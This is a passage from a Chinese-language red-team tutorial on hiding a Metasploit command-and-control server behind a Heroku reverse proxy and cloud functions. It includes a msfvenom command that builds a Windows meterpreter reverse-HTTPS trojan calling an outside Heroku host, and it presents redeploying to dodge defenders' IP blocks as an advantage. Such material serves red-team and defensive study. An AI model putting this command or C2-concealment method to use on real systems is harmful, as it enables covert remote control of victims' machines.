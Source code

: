 如上图可以看到已经开启 8443 端口的监听，即配置完毕。

**第二步**

使用命令生成木马  
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=nancicdn.herokuapp.com LPORT=443 -f exe -o payload.exe  
然后将生成的木马上传至虚拟机并执行。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZr5VLfF9rmGKd4RicHC8NzraqWuYuclrHou7n0bTwvFY22kSrIxTfWPVQ/640?wx_fmt=png)

执行后发现在 metasploit 成功上线。

可以看到 session 的链接地址为 heroku 中转服务器地址，而且不同的 heroku 部署其连接的 IP 是不相同的。

如下图：  
Target 1

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZrsxj8nYIO4gT2N9fibXia9icckVw78H9jocNfq2ibOmEEtV9TPFHVu91tjg/640?wx_fmt=png)

Target 2

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZr3Wibr3tnusMTVjNsHnibrkHrbg5epunLVqiah4FzWBQ6ce7duHiaf9hApg/640?wx_fmt=png)

*   ### **总结**
    

heroku 隐藏 C2 从技术原理上看非常简单, 使用 heroku 服务部署 nginx 反向代理服务, payload 连接 heroku 的 nginx,nginx 将流量转发到 C2。  
具体优势如下:

*   只需要注册 heroku 免费账号即可
    
*   无需注册或购买域名
    
*   自带可信的 SSL 证书 (heroku 域名自带证书)
    
*   如果 IP 地址被封锁, 可删除原有 heroku app 重新部署 heroku app(大约需要 30s), 与防守人员持续对抗
    
*   操作步骤简单
    

  

**云函数**

  

这个技术最先是在今年的 3 月份国外提出的，他们利用 azure 对 C2 进行隐藏，国内也有相对应的 云函数厂商，于是我们就尝试使用云函数对我们的 C2 服务器进行隐藏。

*   ### **配置过程**
    

点击新建云函数，选择创建方式—自定义创建，函数名称自定义或者默认都可以，运行环境选择 python3.6，当然也有师傅去用其他语言版本去写但是原理都是一样的，地域随意即可。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZrEBiaT9icvLaBORR05fUZ0sHJ4CrHBPfH0BSxgcxwjvlnULNZlLXse8MA/640?wx_fmt=png)

点击完成，我们先不编辑云函数代码。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4CjF9piabQUaUQR8LqhbeZrPRQ7TDuNNNCJqfNdYp2yibot0uEDicFicjpFH4zicMEnGTYeKvOjxfyQiaw/640?wx_fmt=png)

创建触发器，具体配置如上图，我们使用 API 网关来进行触发函数。
